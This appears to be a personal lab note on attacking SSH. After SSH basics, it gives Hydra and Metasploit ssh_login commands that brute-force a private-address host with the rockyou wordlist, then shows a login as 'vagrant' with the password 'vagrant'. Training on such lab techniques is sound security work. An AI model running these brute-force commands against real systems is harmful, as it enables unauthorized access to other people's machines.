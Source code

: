 ● SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.

● SSH authentication can be configured in two ways:
<span style="background:#d4b106">○ Username & password authentication</span>
<span style="background:#d4b106">○ Key based authentication</span>
 
 ---
### HYDRA SSH BRUTE FORCE
### HYDRA Graphic SSH BRUTE FORCE
![[Pasted image 20240210213917.png]]
![[Pasted image 20240210213932.png]]
### hydra -l vagrant -P /opt/rockyou.txt ssh://10.0.2.16
```
hydra -l vagrant -P /opt/rockyou.txt ssh://10.0.2.16
```

```
hydra -l vagrant -P /opt/rockyou.txt -t 4 10.0.2.16 ssh
```

#hydra-ssh


---

## MSFCONSOLE SSH
#msfconsole-ssh


### msf6> search ssh login
### msf6>use auxiliary(scanner/ssh/ssh_login)


```
set RHOSTS 10.0.2.16
set verbose true
set USERNAME 
set PASS_FILE /opt/rockyou.txt
set STOP_ON_SUCCESS true 
set VerBOSE true
RUN
```


![[Pasted image 20240210214546.png]]

![[Pasted image 20240210214929.png]]

## SSH LOGIN
![[Pasted image 20240210214956.png]]
```
ssh vagrant@10.0.2.16
vagrant@10.0.2.16's password: vagrant
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 3.13.0-170-generic x86_64)

```

---
